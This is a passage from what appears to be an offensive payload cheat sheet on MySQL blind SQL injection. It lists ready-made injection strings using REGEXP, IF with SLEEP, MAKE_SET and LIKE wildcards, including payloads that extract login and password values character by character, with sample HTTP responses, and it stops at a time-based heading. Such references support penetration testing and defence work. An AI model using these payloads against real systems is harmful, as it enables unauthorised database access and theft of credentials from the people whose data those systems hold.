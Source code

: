 ### MySQL Blind SQL Injection binary query using REGEXP.

Payload:
```
' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -
```

Would work in the query (where the "where" clause is the injection point):
```
SELECT name,price FROM items WHERE name = '' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -';
```

In said query, it will check to see if an item exists in the "name" column in the "items" database that starts with an "a". If it will sleep for 3 seconds per item.

### MYSQL Blind using a conditional statement

TRUE: `if @@version starts with a 5`:

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
Response:
HTTP/1.1 500 Internal Server Error
```

False: `if @@version starts with a 4`:

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
Response:
HTTP/1.1 200 OK
```

### MYSQL Blind with MAKE_SET

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```

### MYSQL Blind with LIKE

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) acts like the regex character '.', use it to speed up your blind testing

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
```

## MYSQL Time Based

The following SQL codes will delay the output from MySQL.
